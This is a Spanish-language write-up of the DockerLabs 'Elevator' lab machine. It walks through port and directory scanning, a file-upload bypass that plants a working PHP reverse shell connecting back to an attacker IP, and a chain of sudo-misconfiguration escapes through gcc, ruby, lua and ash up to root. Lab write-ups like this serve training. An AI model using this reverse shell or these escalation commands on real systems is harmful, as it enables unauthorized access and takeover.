


**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `Gobuster` `File Upload` `Bypass` `RCE` `Sudoers`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip elevator.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh elevator.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-16 16:32 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000076s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.80 seconds
```

Accedemos al puerto `80` y nos encontramos la siguiente página:



## GOBUSTER

Realizamos fuzzing de directorios para intentar localizar rutas o archivos ocultos.

```Bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh,asp,aspx -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh,asp,aspx
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 5647]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
Progress: 37023 / 1985022 (1.87%)
```

Encontramos un directorio `/themes` pero no tenemos permisos para listar el contenido (403 Forbidden).

Hacemos ahora `fuzzing` dentro de `/themes` para ver qué encontramos.

```Bash
gobuster dir -u http://172.17.0.2/themes -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh,asp,aspx -b 403,404 -t 60
```

Info:
``` 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/themes
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              bak,sh,asp,aspx,html,zip,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
/upload.php           (Status: 200) [Size: 0]
/archivo.html         (Status: 200) [Size: 3380]
Progress: 210591 / 1985022 (10.61%)
```

Encontramos un archivo `upload.php`, un archivo `archivo.html` y un directorio `/uploads`.

El archivo `upload.php` está vacío, pero si navegamos a `archivo.html`, encontramos un `panel de subida` de archivos `.jpg`.



Vamos a intentar subir un archivo `.php` con extensión `.jpg` para engañar al sistema y obtener una `reverse shell`.

Creamos el archivo `shell.php`.

```Bash
nano shell.php
```

```PHP
<?php
$sock=fsockopen("172.17.0.1",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Lo copiamos renombrándolo con la doble extensión.

```Bash
cp shell.php shell.php.jpg
```

Subimos el archivo modificado a través del formulario y funciona.

```
El archivo ha sido subido correctamente: uploads/69933be14a98c.jpg
```

Se ha guardado en el directorio `/uploads`.

Ponemos un `listener` en nuestra máquina atacante.

```Bash
sudo nc -nlvp 4444
```

Navegamos a la ruta donde se ha subido el archivo:`http://172.17.0.2/themes/uploads/69933be14a98c.jpg`.

```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 46246
whoami
www-data
```

Recibimos la shell interactiva como usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## MOVIMIENTO LATERAL

Una vez dentro, comprobamos permisos `sudo`.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for www-data on 4eddf4ebb561:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on 4eddf4ebb561:
    (daphne) NOPASSWD: /usr/bin/env
```

Podemos ejecutar `/usr/bin/env` como el usuario `daphne`. Aprovechamos esto para pivotar de usuario.

```Bash
sudo -u daphne /usr/bin/env /bin/bash
```
```
daphne@4eddf4ebb561:/$ whoami
daphne
daphne@4eddf4ebb561:/$
```

---
Una vez como daphne, volvemos a comprobar los permisos `sudo`.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for daphne on 4eddf4ebb561:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User daphne may run the following commands on 4eddf4ebb561:
    (vilma) NOPASSWD: /usr/bin/ash
```

Podemos ejecutar el binario `ash` como el usuario vilma. Aprovechamos esto para pivotar de usuario.

```Bash
sudo -u vilma /usr/bin/ash
```
```
$ whoami
vilma
$
```

---
Ahora como vilma, comprobamos permisos `sudo`.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for vilma on 4eddf4ebb561:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User vilma may run the following commands on 4eddf4ebb561:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

Podemos ejecutar el binario `ruby` como usuario `shaggy`. Aprovechamos esto para pivotar de usuario.

```Bash
sudo -u shaggy ruby -e 'exec "/bin/sh"'
```
```
$ whoami
shaggy
$
```

---
Seguimos pivotando. Comprobamos permisos de `sudo` de shaggy.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for shaggy on 4eddf4ebb561:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User shaggy may run the following commands on 4eddf4ebb561:
    (fred) NOPASSWD: /usr/bin/lua
```

Podemos ejecutar el binariro `lua` como usuario `fred`. Aprovechamos esto para pivotar de usuario.

```Bash
sudo -u fred lua -e 'os.execute("/bin/sh")'
```
```
$ whoami
fred
$
```

---
Comprobamos los permisos `sudo` de fred.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for fred on 4eddf4ebb561:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User fred may run the following commands on 4eddf4ebb561:
    (scooby) NOPASSWD: /usr/bin/gcc
```

Podemos ejecutar el binario `gcc` como usuario `scooby`. Usaremos el flag `-wrapper` para ejecutar una `shell`.

```Bash
sudo -u scooby gcc -wrapper /bin/sh,-s x
```
```
$ whoami
scooby
$
```

## ESCALADA DE PRIVILEGIOS

Finalmente, comprobamos los permisos `sudo` de scooby.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for scooby on 4eddf4ebb561:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User scooby may run the following commands on 4eddf4ebb561:
    (root) NOPASSWD: /usr/bin/sudo
```

Vemos que podemos ejecutar el binario `sudo` como root. Esto nos da acceso directo.

```Bash
sudo sudo /bin/bash
```
```
root@4eddf4ebb561:/# whoami
root
root@4eddf4ebb561:/#
```

Ya somos root!

